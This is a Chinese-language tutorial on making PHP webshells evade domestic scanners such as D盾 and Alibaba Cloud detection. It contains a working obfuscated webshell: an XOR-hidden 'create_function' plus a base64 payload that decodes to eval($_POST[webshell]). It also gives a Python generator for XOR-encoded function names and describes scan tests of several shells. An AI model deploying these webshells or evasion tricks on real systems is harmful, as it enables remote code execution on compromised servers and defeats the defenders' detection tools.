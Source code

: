 国内常见查杀软件：

1. D 盾防火墙
2. 百度 WEBDIR+
3. 阿里云 Webshell 检测平台

## 1 理论

### 1.1 识别方式

1. 静态（分析已知类型后门的 hash 值或文件特征）
2. 敏感函数（例如 eval）
3. 敏感调用（例如写一个变量 $a=eval 调用 $a() 即可调用 eval）
4. 污点分析（底层代码分析，较难解决，阿里云擅长）

### 1.2 免杀方式

1. 对敏感函数进行编码（不推荐 base64、异或（随机字符建议使用 16 进制），太常见，在 jsp 中建议用 unicode ）
2. 字符串拼接
3. 加解密
4. 反序列化（在 php 中推荐）

### 1.3 Payload

```php
<?php
class LJEF{
    function __destruct(){
        $TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
        @$TPHV=$TPHV('',$this->INTA);
        return @$TPHV();
    }
}
$ljef=new LJEF();
@$ljef->INTA=base64_decode("IEBldmFsKCRfUE9TVFt3ZWJzaGVsbF0pOw==");
?>
```

>  `$TPHV` 的内容为异或，结果是 `create_function` ，以执行匿名函数 `INTA` ，避免直接执行 `base64_decode` 时被解密
>
>  `INTA` 的 `base64` 编码可以拆分为多个魔术方法后再拼接到一起，达到更好的免杀效果
>
>  在 `LJEF` 类中没有给 `INTA` 赋值，那么可以在调用 `LJEF` 时对 `INTA` 赋值
>
>  密钥为 `webshell`

### 1.4 异或

```php
$TPHV='IUBNRVl{h_t|>DS'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d"
```

> 对异或函数 `IUBNRVl{h_t|>DS` 解密

函数 `IUBNRVl{h_t|>DS`  是对 `create_function` 进行异或加密得到的函数

```
┌──(root㉿kali-31)-[~]
└─# vim create_function.php
```

```php
<?php
$TPHV='create_function'^"\x2a\x27\x27\x2f\x26\x33\x33\x1d\x1d\x31\x17\x8\x57\x2b\x3d";
echo $TPHV
?>
```

```
┌──(root㉿kali-31)-[~]
└─# php create_function.php
IUBNRVl{h_t|>DS
```

> 异或的加密密钥可以是随机的，但要与 `create_function` 字符长度相同
>
> 加密后的值要避免不可见字符，无法解密 

异或脚本

```
┌──(root㉿kali-31)-[~]
└─# vim xor.py
```

```python
#!/usr/bin/python3
import chardet
import base64
import random
import sys
import zlib

def gen_payload(func):
    func_line1 = ''
    func_line2 = ''
    key = random_keys(len(func))
    for i in range(0,len(func)):
        enc = xor(func[i],key[i])
        func_line1 += key[i]
        func_line2 += enc
    payload = '\'{0}\'^"{1}"'.format(func_line1,func_line2)
    return payload
def random_keys(len):
    str = '`~-=!@#$%^&*_/+?<>{}|:[]abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'
    return ''.join(random.sample(str,len))
def xor(c1,c2):
    return hex(ord(c1)^ord(c2)).replace('0x',r"\x")

func1 = sys.argv[1]
print(gen_payload(func1))
```

> 这个脚本中的加密密钥是随机的

使用脚本对 `eval` 函数进行异或加密

```
┌──(root㉿kali-31)-[~]
└─# python xor.py eval
'>!f_'^"\x5b\x57\x7\x33"
```

> 异或由于太常用，已经很难利用

### 1.5 实战

将四个 payload 放入虚拟机，使用 D 盾进行扫描

1. 未加密的一句话木马
2. 加密的一句话木马
3. 简单加密的大马
4. 可绕过安全狗的大马

![将四个 payload 放入虚拟机，使用 D 盾进行扫描](./../../../image/WebShell%20%E7%9A%84%E5%85%8D%E6%9D%80/%E5%B0%86%E5%9B%9B%E4%B8%AA%20payload%20%E6%94%BE%E5%85%A5%E8%99%9A%E6%8B%9F%E6%9C%BA%EF%BC%8C%E4%BD%BF%E7%94%A8%20D%20%E7%9B%BE%E8%BF%9B%E8%A1%8C%E6%89%AB%E6%8F%8F.png)

> 发现识别出了未加密的一句话木马（`shell-没有加密一句话.php`）和简单加密的大马（`webshell大马.php`）